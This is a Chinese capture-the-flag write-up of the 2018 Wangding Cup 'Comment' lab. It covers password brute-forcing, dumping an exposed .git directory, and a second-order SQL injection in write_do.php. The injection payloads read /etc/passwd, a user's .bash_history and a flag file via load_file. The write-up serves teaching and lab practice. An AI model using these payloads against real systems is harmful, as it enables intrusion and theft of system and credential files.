








# 网鼎杯2018-Comment

首先打开页面



点击发帖，随便发点内容，然后自动给我们跳转到一个登录页面。


给了我们账号和密码，但是密码的后三位没有告诉我们，我们可以使用burpsuite来爆破出密码，从1爆破到1000

最后

成功爆破出密码末尾三位为666，登录

```
zhangwei
zhangwei666
```

---

## githacker下载

登录之后又给我们跳转到了留言板，然后就没有其他信息了，这时候我们尝试使用githacker拿取git文件，

```
githacker --url http://2f62bda5-c550-4886-88c5-d7d119a8c5e4.node5.buuoj.cn:81/.git --output-folder result
```



成功将write_do.php文件下载下来



write_do.php

```
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    break;
case 'comment':
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>

```

但是很明显源码并不完整

## 复原git文件

**在cmd界面进入到write_do.php的路径来**

```
git log --all
```



**可以看到，head指针指向的是最早一次commit，通过`git reset --hard e5b2a2443c2b6d395d06960123142bc91123148c` 命令将head指向第一个commit，得到完整的write_do.php**

这下代码就完整了

```
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>

```

代码审计

```
<?php
// 包含名为 mysql.php 的文件，该文件可能包含了数据库连接相关的代码
include "mysql.php";

// 启动会话，用于存储和获取用户的会话信息
session_start();

// 检查会话中的 'login' 变量是否不等于 'yes'，如果不等于则表示用户未登录
if($_SESSION['login'] != 'yes'){
    // 若未登录，使用 header 函数将用户重定向到登录页面 login.php
    header("Location: ./login.php");
    // 终止当前脚本的执行，防止后续代码继续运行
    die();
}

// 检查是否通过 GET 请求传递了 'do' 参数
if(isset($_GET['do'])){
    // 根据 'do' 参数的值进行不同的操作
    switch ($_GET['do'])
    {
        // 当 'do' 参数的值为 'write' 时
        case 'write':
            // 获取 POST 请求中的 'category' 参数，并使用 addslashes 函数对其进行转义，防止 SQL 注入
            $category = addslashes($_POST['category']);
            // 获取 POST 请求中的 'title' 参数，并使用 addslashes 函数对其进行转义
            $title = addslashes($_POST['title']);
            // 获取 POST 请求中的 'content' 参数，并使用 addslashes 函数对其进行转义
            $content = addslashes($_POST['content']);
            // 构建插入数据到 'board' 表的 SQL 语句
            $sql = "insert into board
                    set category = '$category',
                        title = '$title',
                        content = '$content'";
            // 执行 SQL 语句
            $result = mysql_query($sql);
            // 将用户重定向到 index.php 页面
            header("Location: ./index.php");
            // 跳出 switch 语句
            break;
        // 当 'do' 参数的值为 'comment' 时
        case 'comment':
            // 获取 POST 请求中的 'bo_id' 参数，并使用 addslashes 函数对其进行转义
            $bo_id = addslashes($_POST['bo_id']);
            // 构建查询 'board' 表中指定 'id' 的 'category' 的 SQL 语句
            $sql = "select category from board where id='$bo_id'";
            // 执行 SQL 语句
            $result = mysql_query($sql);
            // 获取查询结果的行数
            $num = mysql_num_rows($result);
            // 如果查询结果的行数大于 0，说明存在符合条件的记录
            if($num>0){
                // 获取查询结果中的 'category' 字段值
                $category = mysql_fetch_array($result)['category'];
                // 获取 POST 请求中的 'content' 参数，并使用 addslashes 函数对其进行转义
                $content = addslashes($_POST['content']);
                // 构建插入数据到 'comment' 表的 SQL 语句
                $sql = "insert into comment
                        set category = '$category',
                            content = '$content',
                            bo_id = '$bo_id'";
                // 执行 SQL 语句
                $result = mysql_query($sql);
            }
            // 将用户重定向到 comment.php 页面，并传递 'id' 参数
            header("Location: ./comment.php?id=$bo_id");
            // 跳出 switch 语句
            break;
        // 当 'do' 参数的值为其他值时
        default:
            // 将用户重定向到 index.php 页面
            header("Location: ./index.php");
    }
}
// 如果没有通过 GET 请求传递 'do' 参数
else{
    // 将用户重定向到 index.php 页面
    header("Location: ./index.php");
}
?>
```

---

现在寻找注入点，可以看到这里使用addslashes()对我们提交的数据进行了处理。后台对输入的参数通过addslashes()对预定义字符进行转义，加上\，预定义的字符包括单引号，双引号，反斜杠，NULL。但是放到数据库后会把转义符 \ 去掉（进入数据库后是没有反斜杠的），并存入数据库中。

```
        $category = addslashes($_POST['category']);
            // 获取 POST 请求中的 'title' 参数，并使用 addslashes 函数对其进行转义
            $title = addslashes($_POST['title']);
            // 获取 POST 请求中的 'content' 参数，并使用 addslashes 函数对其进行转义
            $content = addslashes($_POST['content']);
            // 构建插入数据到 'board' 表的 SQL 语句
            $sql = "insert into board
```

但是在comment中，对于category的值从数据库查询出来没有进行转义，直接拼接到sql insert语句中，这就存在二次注入了

```
 $bo_id = addslashes($_POST['bo_id']);
            // 构建查询 'board' 表中指定 'id' 的 'category' 的 SQL 语句
            $sql = "select category from board where id='$bo_id'";
            // 执行 SQL 语句
            $result = mysql_query($sql);
            // 获取查询结果的行数
            $num = mysql_num_rows($result);
             if($num>0){
                // 获取查询结果中的 'category' 字段值
                $category = mysql_fetch_array($result)['category'];
              
```

 **都是直接取出没有进行转义，而之前预定义后的反斜杠在存进数据库中后会消失**

---

然后我们就可以根据下面这个查询语句构建payload：

```
                $sql = "insert into comment
                        set category = '$category',
                            content = '$content',
                            bo_id = '$bo_id'";
                // 执行 SQL 语句
                $result = mysql_query($sql);
```

我们在category里面写入我们的语句，然后提交



然后查看提交结果，在留言，也就是content参数，输入`*/#`，闭合前面（/**/注释）的本来的content，#用来注释后面的引号

可以看到content一栏回显出来了数据库名



## sql语句拼接原理：

通过/**/将原来的content语句给闭合掉，并且用#将后面的引号注释掉

```
insert into comment
            set category = '0',content=database(),/*',
                content = '*/#',
                bo_id = '$bo_id'
```

现在我们找到了二次注入的点，现在我们可以开始注出我们想要的数据

## 读取文件

使用select load_file(‘文件绝对路径’)来读取文件，这里的路径，我们可以猜想一下，大部分的服务器都是linux系统的，所以我们先以linux系统的文件访问示范一下。

读/etc/init.d下的东西，这里有配置文件路径
?id=1' union select 1,2,load_file('/etc/init.d/httpd')
得到web安装路径
?id=1' union select 1,2,load_file('/etc/apache/conf/httpd.conf')
读取密码文件
?id=1' union select 1,2,load_file('var/www/html/xxx.com/php/conn.inc.php')

---

### **读取/etc/passwd文件**

```
a',content=(select (load_file('/etc/passwd'))),/*
```



### 查看www用户的历史执行命令

读取成功，可以知道www用户（一般和网站操作相关的用户，由中间件创建）的目录是/home/www，可以查询这下面的.bash_history

```
a',content=(select (load_file('/home/www/.bash_history'))),/*
```



这里可以看见，www用户进入到tmp目录下，解压了一个html的压缩文件，然后删除了压缩包，将解压了的文件拷贝到了/var/www/html目录下，然后删除了.DS_Store，值得注意的是，他并没有删除/tmp目录下解压出来的.DS_Store文件，所以我们就可以查看

---

.DS_Store(英文全称 Desktop Services Store)是一种由苹果公司的Mac OS X操作系统所创造的隐藏文件，**目的在于存贮目录的自定义属性**，例如文件们的图标位置或者是背景色的选择。**通过.DS_Store可以知道这个目录里面所有文件的清单。**

```
a', content=(select (load_file('/tmp/html/.DS_Store'))),/*
```

### 查看文件清单.DS_Store

这儿由于文件太大，不能完全显示，所以我们用十六进制编码，然后找个网站解码就行了。改为payload：

```
a', content=(select hex(load_file('/tmp/html/.DS_Store'))),/*
```

```
00000001427564310000100000000800000010000000040A000000000000000000000000000000000000000000000800000008000000000000000000000000000000000000000002000000000000000B000000010000100000730074007200610070496C00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000B000000090062006F006F007400730074007200610070496C6F63626C6F62000000100000004600000028FFFFFFFFFFFF00000000000B0063006F006D006D0065006E0074002E007000680070496C6F63626C6F6200000010000000CC0000002800000001FFFF000000000003006300730073496C6F63626C6F62000000100000015200000028FFFFFFFFFFFF0000000000190066006C00610067005F0038003900340036006500310066006600310065006500330065003400300066002E007000680070496C6F63626C6F6200000010000001D800000028FFFFFFFFFFFF0000000000050066006F006E00740073496C6F63626C6F62000000100000004600000098FFFFFFFFFFFF0000000000090069006E006400650078002E007000680070496C6F63626C6F6200000010000000CC0000009800000002FFFF000000000002006A0073496C6F63626C6F62000000100000015200000098FFFFFFFFFFFF000000000009006C006F00670069006E002E007000680070496C6F63626C6F6200000010000001D800000098FFFFFFFFFFFF000000000009006D007900730071006C002E007000680070496C6F63626C6F62000000100000004600000108FFFFFFFFFFFF00000000000600760065006E0064006F0072496C6F63626C6F6200000010000000CC00000108FFFFFFFFFFFF00000000000C00770072006900740065005F0064006F002E007000680070496C6F63626C6F62000000100000015200000108FFFFFFFFFFFF0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001000000000000080B000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000010000002000000001000000400000000100000080000000010000010000000001000002000000000100000400000000000000000100001000000000010000200000000001000040000000000100008000000000010001000000000001000200000000000100040000000000010008000000000001001000000000000100200000000000010040000000000001008000000000000101000000000000010200000000000001040000000000000108000000000000011000000000000001200000000000000140000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000003000000000000100B000000450000040A000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000104445344420000000100000000000000000000000000000000000000000000000200000020000000600000000000000001000000800000000100000100000000010000020000000000000000020000080000001800000000000000000100002000000000010000400000000001000080000000000100010000000000010002000000000001000400000000000100080000000000010010000000000001002000000000000100400000000000010080000000000001010000000000000102000000000000010400000000000001080000000000000110000000000000012000000000000001400000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```

在hackbar中进行十六进制解码，然后放在txt文件中看的更清楚

```
Bud1
strapIl	bootstrapIlocblobF(ÿÿÿÿÿÿcomment.phpIlocblobÌ(ÿÿcssIlocblobR(ÿÿÿÿÿÿflag_8946e1ff1ee3e40f.phpIlocblobØ(ÿÿÿÿÿÿfontsIlocblobF˜ÿÿÿÿÿÿ	index.phpIlocblob̘ÿÿjsIlocblobR˜ÿÿÿÿÿÿ	login.phpIlocblobؘÿÿÿÿÿÿ	mysql.phpIlocblobFÿÿÿÿÿÿvendorIlocblobÌÿÿÿÿÿÿwrite_do.phpIlocblobRÿÿÿÿÿÿ @€ @€ @€ @E
DSDB `€ @€ @€ @
```

可以看见含有flag的php文件了。

```
flag_8946e1ff1ee3e40f.php
```

### 读取flag文件

```
a',content=(select hex(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php'))),/*
```

成功读取

```
3C3F7068700A0924666C61673D22666C61677B36346662393430322D326431612D346436652D386639392D6636393132663331313065647D223B0A3F3E0A
```

解码之后就能看到flag了

```
<?php
	$flag="flag{64fb9402-2d1a-4d6e-8f99-f6912f3110ed}";
?>

```

